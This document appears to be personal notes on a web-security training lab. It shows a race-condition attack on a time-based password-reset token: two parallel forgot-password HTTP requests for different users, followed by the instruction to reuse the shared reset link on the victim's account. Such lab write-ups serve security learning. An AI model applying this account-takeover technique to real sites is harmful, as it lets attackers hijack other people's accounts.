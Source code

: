 # Time-sensitive attacks

![image.png](Time-sensitive%20attacks%201e9021737a898061b885cb2938243272/image.png)

This is rather a cryptographic failure, since the generation algo is weak and only relies on time, but to exploit it, we need 2 parallel requests.

If we send 2 parallel requests for 2 different users, and they have synchronized time used for token generation, it basically means there will be one identical token issued for both users. That’s how we can reach a password reset link for a victim account by using the same token (condition: username is not giving an entropy for the token generation and only treated as a parameter)

Note for below: requests are sent from different sessions using different CSRF tokens.

```bash
POST /forgot-password HTTP/2
Host: 0ae80024047faf0781abac2300e10058.web-security-academy.net
Cookie: phpsessionid=txK834DvaIz1w7HbH0ESF1HFV3ecwQE7
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ae80024047faf0781abac2300e10058.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80024047faf0781abac2300e10058.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=AH5XP0h623nCa0CJZ5Cu1ocII32Ub9Dz&username=wiener
```

```bash
POST /forgot-password HTTP/2
Host: 0ae80024047faf0781abac2300e10058.web-security-academy.net
Cookie: phpsessionid=taTX88VxCk9tjUDxJRlRjfIFiPuB2wnF
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ae80024047faf0781abac2300e10058.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80024047faf0781abac2300e10058.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=ScucHznPVf53VSFmC7nQluBAiXf6cHx9&username=carlos
```

![image.png](Time-sensitive%20attacks%201e9021737a898061b885cb2938243272/image%201.png)

Copy the link & change username to target victim account.

![image.png](Time-sensitive%20attacks%201e9021737a898061b885cb2938243272/image%202.png)

Vulnerability confirmed